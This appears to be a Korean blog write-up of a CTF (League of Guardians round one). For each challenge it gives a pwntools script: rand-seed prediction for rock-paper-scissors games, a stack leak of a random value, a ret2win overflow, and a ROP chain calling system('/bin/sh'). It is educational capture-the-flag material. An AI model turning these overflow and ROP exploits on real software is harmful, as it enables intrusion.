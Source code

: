 ```yaml
---
layout: post
title: League of guardians 1차전 write-up
---
```



사이버 가디언즈 1차전에서 푼  풀이이다.

Randomgame1(misc) 
-
 nc로 접속하면 가위바위보를 한다. 바이너리를 아이다로 까보면 rand로 값을 만들고 win을 9번보다 많이 해야한다. 고로 다 이기면 된다. rand값을 이길려면 어쩌지 생각하다가 시드가 일정시간마다 바뀌는 것을 알았다. 

그래서 동시간에 세션을 2개 열어놓고 첫 번째 세션에서 나온 값을 토대로 win을 하기 위한 경우를 파악한 뒤 다 이겨주면 flag를 얻을 수 있다.

`solve.py`
```python
from pwn import *

s = remote("52.79.210.195",9292)
s2 = remote("52.79.210.195",9292)

win_list = []

for i in range(0,10):
	s.sendlineafter(": ", "1")
	result=s.recvline()
	if result == "You win!\n":
		win_list.append("1")
	elif result == "You lose!\n":
		win_list.append("2")
	else: win_list.append("3")

for i in range(0,10):
	s2.sendlineafter(": ",win_list[i])
	s2.recvuntil("You win!\n\n")

log.success(s2.recvline())
```
`flag{YoU_R_V3ry_Lucky_GUY!@#$}`

**![](https://lh5.googleusercontent.com/q7EduuOmhIZLizW0dxuKq0uCN87HIR5eL-UReD_OeUHvCioHfmWVEi64-rKsEInR7jV_0-3upmmj69W7dfZhlwWtXUVd_F3erutuJAx1nO_8AisjZA2ve28LFvx6HN_XsGPiGGRz)**

pang(misc)
-
이 문제는 그냥 pwntool이나 파이썬 소켓을 이용하면 풀리는 문제이다. random1 값이 나온 것을 그대로 입력하고 random2 나온 값을 input2로  또 입력하고 str(int(ran2[0].encode("hex"),16) * ran1)한 값을 input3에 입력하면 플래그가 나온다.

`solve.py`
```python
from pwn import *

s = remote("52.79.210.195",13001)

s.recvuntil('ran1 : ')
ran1=str(s.recv(14))
s.recvuntil('input random!\n\n')
s.sendline(ran1)
s.recvuntil('ran2 : ')
ran2=str(s.recv(20))
s.recvuntil('input random2!\n\n')
s.sendline(ran2)

s.recv()
input3=str(int(ran2[0].encode("hex"),16) * float(ran1))[:14]
log.info(input3)
s.sendline(input3)
s.interactive()
```


Randomgame2(pwn)
-
Randomgame1과 같은 방법이지만 조금 pwnable적 지식이 더해져서 pwn으로 나왔다. 바이너리를 아이다로 까보면

**![](https://lh5.googleusercontent.com/t4wJeY9EiKzl3YFpCRix7_HWC0wnye0IE96gTPJVch8D8CSFs3NyspajrYQc1drG3CiLZGwMlSmwDq5SpVv963f6F_wcKKu44Cpq1ZCe8EE_X4fRanBVvuaFRSTYYGuSbC-QE56j)** 

게임을 지면 --v8가 되고 이기면 ++v8이 된다. 그리고 v8 > v10(-3으로 초기화 되어있음)이면 cat flag를 해준다. 
하지만 여기서 핵심은 v8은 

**![](https://lh4.googleusercontent.com/oFO3vrLSeIoV5tgF7EjlooK_zY9vH2ElowMnlfSWm4XJw-V3tkgGtycSckMjsWGHynyHVPk6k0m3QPAcGr85hSJGnWm-8U6KV2FOFNHU4biXKyVokg5Li0MFAWdSrhI47JMG9Yev)**

unsigned로 선언 되어있다. 음수를 포함하지 않는다. 따라서 첫 바이트가 음과 양을 판단하기 때문에 -3보다 클려면 -4, -5, -6이렇게 되어야 한다. 따라서 가위바위보 게임에서 다 지면 된다. 

```python
from pwn import *

s = remote("52.78.156.241",4885)
s2 = remote("52.78.156.241",4885)

lose_list = []

for i in range(0,11):
	s.sendlineafter(": ", "1")
	result=s.recvline()
	if result == "You win!\n":
		lose_list.append("3")
	elif result == "You lose!\n":
		lose_list.append("1")
	else: lose_list.append("2")

for i in range(0,11):
	s2.sendlineafter(": ",lose_list[i])
	s2.recvuntil("You lose!\n\n")

log.success(s2.recvline())
```
`flag{ThATs_t0o_BAd_y0u_R_s0_uNLucky!@#$}`

**![](https://lh3.googleusercontent.com/7SUlNCZ93Hj9bvbLftWzme1NhVaCWPgoRAcEbU2e4Lb7cJ1frwL3_St_vsTLH15RppMzlnq52zRVSPSshjr4LHkgdJ4mgE3nUxVrPpfAAs_ZbhupBhY_y68HjEdL7wsSb2SGV2Bi)**

guess(pwn)
-
elf 64bit 문제이다. 


**![](https://lh3.googleusercontent.com/vLiNCMdRejXRccUGYdu-8wsoUoOwnK0SWHPXxZDu28rnUE2zjfhZSBb_ghvaB6FskO9avRGvb274SMLYY23pXAfU3T4ip7wU1RfKkt_sUsHfixc9CXhUrRIfAMP0Z6fUdYg1UsMd)**


메모리 보호 기법은 이러하다.

**![](https://lh6.googleusercontent.com/PnE3-7HHBpG7k0CXH9gVTRmSetQAXWkrXJtkBtr-oMxqnl1kT32zIrWklVPbldhjPNWQgle29iQzuTY2yguiAKBewCy3FpMiNFvdd82d_LRRpbiSgAxshY1M7lil3iYT5Ir2-q_S)**


바이너리를 까보면 v6이라는 변수에 rand값을 넣어준다. 그리고 그 값이 입력받는 값과 같으면 system("/bin/sh")을 실행해준다. buf의 위치는 rbp-0x20, v6변수의 위치는 rbp-0x10이다. buf의 주소부터 0x1E만큼 입력을 받을 수 있으니 오버플로우를 통해 "Nice to meet you %s"에서 v6(rand)값을 leak할 수 있다.


`exploit.py`
```python
from pwn import *

s = process("./guess")
#context.log_level = 'debug'
s.recvuntil('Tell me your name')

payload = "A"*15

s.sendline(payload)
s.recvuntil("A"*15+"\n")
leak=int(u32(s.recv(4)))
print (leak)
s.recvuntil('Okay, can you guess the random number?\n')
s.send(str(leak))
s.interactive()
```


yourNAME(pwn)
-
elf 64bit 문제이다.

**![](https://lh4.googleusercontent.com/QvNUncstkqYiV7rw434ww0lgtrL8sa70f1luprMjugK3bUrT7I5kpz-y2uaSqtd1ux-cWPdKruMs3UHs-75YdYanzwpueu8Nc7PPyX_fMzpO2Bl4k67-wI1_mOZ3wmYX16f77zAr)**

메모리 보호기법은 이러하다.


**![](https://lh6.googleusercontent.com/SCTbr3vyc1Sj1taF7wT8M9qhswYgo0aYVorKvjPHgK17Z8En912wM4w5YkuP3lRdmI1p-h09nB6Au7VrUorucXK1MSRREuRPaDKfwqWniISEX98OnIMEFZ0_Pd-I_Tl9yAEE3b3a)**


scanf에서 overflow가 발생한다. 그리고 바이너리를 잘 보면,


**![](https://lh5.googleusercontent.com/Ci3PNYMGNgRajSF1XWTosYk25c9Mwy1LUL55v6oIOdcPVYEniya88Q14oFAdsIUXhMtfsLt_8caOcKvAOa9tVauDj9NSpX6bEzvC2F4EYKE9uDQM73D4l8V67ISUVZd2B3i5-eYg)**

이런 함수가 있다. 위에 if문 무시하고

**![](https://lh6.googleusercontent.com/05KfovEsbj5EtXQcKq5sLQ2e4QbGoCVrWsVnF6bmeWghbTsdsewz0GbKjjsPZwIFr7okjByOfCWdD62Xvb5FprurEHQKopHy6UpwSuyWwxX-MgGQlO5uq-ARB19d3a8iN8IYtM9o)**

이 주소만 쓱싹해서 ret에 박으면 된다. 

`exploit.py`
```python
from pwn import *

s = remote("52.78.156.241",14191)
context.log_level = 'debug'

pr = 0x004008c3
binsh = 0x004008F0
payload = "A"*40
payload += p64(0x400788) #oneshot

s.sendlineafter('What your name?\n',payload)
s.interactive()
```

dance(pwn)
-
elf 64bit이다. 

**![](https://lh3.googleusercontent.com/zqGxI6OzffXPvUUKKCcoj2K6pkDZWdDEaS2-jsrGwyY4fAx98GCxerYp3DPCDaS31beGovx_rDGosIEbI7yqZe_eU7kk3SUgAnI4MKtU5_c-iMSFO8Efyz51DSkgaYh-l_Bf-6Xz)**

NX가 활성화 되어있다. 

아이다로 분석하면, 1번 메뉴나 2번 메뉴 scanf에서 overflow가 가능하다. 그리고 welldone 함수에서 system함수가 사용되었다.

 ROP할 때 system인자로 넘겨 줄 /bin/sh가젯은  바이너리 안에 있는 심볼인 fflush의 뒤에 sh부분만 사용하면 된다. 그리고 prdi 가젯을 사용하면 안 되고, gadget()에 있는 pop rdi, pop rbp, ret을 사용해야 한다. 

`exploit.py`
```python
from pwn import *

s = process("./dance")

sh = 0x40046f
pprdi = 0x4008fa
system = 0x400760

s.recvuntil("4. exit\n")
s.sendline("1")
s.recvuntil("!\n")

payload = "wellwell"
payload += "A"*64
payload += p64(pprdi)
payload += p64(sh)
payload += p64(0)
payload += p64(system)

s.sendline(payload)
s.interactive()
```

